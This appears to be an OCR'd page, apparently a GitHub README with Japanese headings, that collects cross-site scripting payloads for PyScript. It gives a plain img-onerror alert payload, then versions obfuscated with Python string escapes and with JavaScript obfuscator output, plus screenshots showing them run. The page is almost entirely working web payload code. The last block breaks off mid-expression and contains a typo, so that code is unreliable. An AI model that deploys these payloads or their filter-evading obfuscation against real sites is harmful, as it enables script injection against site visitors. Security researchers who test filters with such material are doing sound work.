 ### クロスサイトスクリプティング (通常)

Code:
```python
<py-script>
print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```
![](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

### クロスサイトスクリプティング (Python 難読化)

Code:
```python
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```
![](https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png)

### クロスサイトスクリプティング (JavaScript 難読化)

Code:
```html
<py-script>
prinht(""
<script>
var _0x3675bf = _0x5cf5
function _0x5cf5(_0xced4e9, _0x1ae724) {
var _0x599cad = _0x599c()
return (
(_0x5cf5 = function (_0x5cf5d2, _0x6f919d) {
_0x5cf5d2 = _0x5cf5d2 - 0x94
var _0x14caa7 = _0x599cad[_0x5cf5d2]
return _0x14caa7
}),
_0x5cf5(_0xced4e9, _0x1ae724)
)
}
;(function (_0x5ad362, _0x98a567) {
var _0x459bc5 = _0x5cf5,
_0x454121 = _0x5ad362()
while (!![]) {
try {
var _0x168170 =
(-parseInt(_0x459bc5(0x9e)) / 0x1) *
(parseInt(_0x459bc5(0x95)) / 0x2) +
(parseInt(_0x459bc5(0x97)) / 0x3) *
(-parseInt(_0x459bc5(0x9c)) / 0x4) +
-parseInt(_0x459bc5(0x99)) / 0x5 +
(-parseInt(_0x459bc5(0x9f)) / 0x6) *
(parseInt(_0x459bc5(0x9d)) / 0x7) +
(-parseInt(_0x459bc5(0x9b)) / 0x8) *
(-parseInt(_0x459bc5(0x9a)) / 0x9) +
-parseInt(_0x459bc5(0x94)) / 0xa +
(parseInt(_0x459bc5(0x98)) / 0xb) *
(parseInt(_0x459bc5(0x96)) / 0xc)
```